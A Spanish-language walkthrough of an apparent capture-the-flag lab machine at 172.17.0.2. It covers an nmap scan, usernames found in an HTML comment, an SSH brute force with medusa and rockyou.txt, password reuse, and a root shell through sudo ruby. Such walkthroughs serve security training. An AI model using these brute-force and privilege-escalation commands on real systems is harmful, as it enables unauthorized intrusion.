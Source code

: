 ### Escaneo inicial con Nmap

```
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

[![nmap.png](https://i.postimg.cc/HxX7XF8K/nmap.png)](https://postimg.cc/hz4jqyrb)
### Si vemos el puerto 80 vemos esto

[![webblanco.png](https://i.postimg.cc/WpQSgPFN/webblanco.png)](https://postimg.cc/w3QhYZQZ)
vemos una web en blanco pero si hacemos Ctrl+u para inspeccionar la web vemos un mensaje en comentario
[![ctrlu.png](https://i.postimg.cc/sgtZ0Vzx/ctrlu.png)](https://postimg.cc/75n65rfr)
vemos dos usuarios **juan** y **camilo** los agregamos a un archivo txt llamado users despues hacemos un ataque de fuerza bruta con **medusa**
```
medusa -U users.txt -P /usr/share/wordlists/rockyou.txt -h 172.17.0.2 -M ssh
```
[![medusa.png](https://i.postimg.cc/KvYxVznN/medusa.png)](https://postimg.cc/9zs6wcgR)
vemos que la contraseña de **camilo** es **password1** entramos a ssh con las credenciales 
[![sshlog.png](https://i.postimg.cc/T1j858MC/sshlog.png)](https://postimg.cc/tngv8Mgx)

exploramos por el sistema y encontramos esto
[![correo.png](https://i.postimg.cc/k4XRpCwt/correo.png)](https://postimg.cc/zL6fy9sJ)
antes explorando vimos el usuario de juan si probamos la contraseña con su usuario vemos que podemos acceder
[![juansu.png](https://i.postimg.cc/9FqbpPDH/juansu.png)](https://postimg.cc/CzSbMqCc)
ahora somos juan si hacemos un sudo -l vemos los permisos que tiene juan

```
sudo -l
```

[![sudo-l.png](https://i.postimg.cc/zGGnQnBf/sudo-l.png)](https://postimg.cc/6yF224Cs)
vemos que podemos ejecutar con permisos de root ruby asi que vamos a elevar privilegios
```
sudo ruby -e 'exec "/bin/sh"'
```
[![root.png](https://i.postimg.cc/50VyhV3m/root.png)](https://postimg.cc/Z9wJNXX9)
ahora somos root
